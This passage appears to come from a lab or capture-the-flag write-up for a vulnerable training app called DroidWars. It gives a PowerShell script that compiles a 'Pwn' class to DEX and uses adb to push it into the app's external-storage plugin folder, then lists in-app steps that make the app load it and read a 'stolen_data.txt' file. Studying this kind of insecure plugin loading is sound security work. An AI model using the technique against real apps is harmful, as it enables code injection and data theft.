 I created a simple automated `PS` script to make things faster (thanks claude ;"D).

```powershell
# 1) Compile to .class (avoid bootclasspath; just use Java 8 bytecode)
javac -source 8 -target 8 Pwn.java

# 2) Convert to DEX using d8
& "C:\\Users\\inova\\AppData\\Local\\Android\\Sdk\\build-tools\\34.0.0\\d8.bat" --output . Pwn.class
Rename-Item classes.dex Pwn.dex -Force

# 3) Push to the app’s plugin directory
adb shell mkdir -p /sdcard/PokeDex/plugins/
adb push Pwn.dex /sdcard/PokeDex/plugins/

# (Optional) Verify presence
adb shell ls -la /sdcard/PokeDex/plugins/
```

In‑app steps:

1. Launch DroidWars, grant storage permission (or `MANAGE_EXTERNAL_STORAGE` on Android 11+).
2. Tap “Refresh Pokémon” to trigger loading. My `Pwn` plugin appears (name “Pwned”).
3. Tap “Check for Exploit Evidence” → the app reads `/sdcard/stolen_data.txt` and prints the file content in the log.

![alt text](2025-11-01_12-41.png)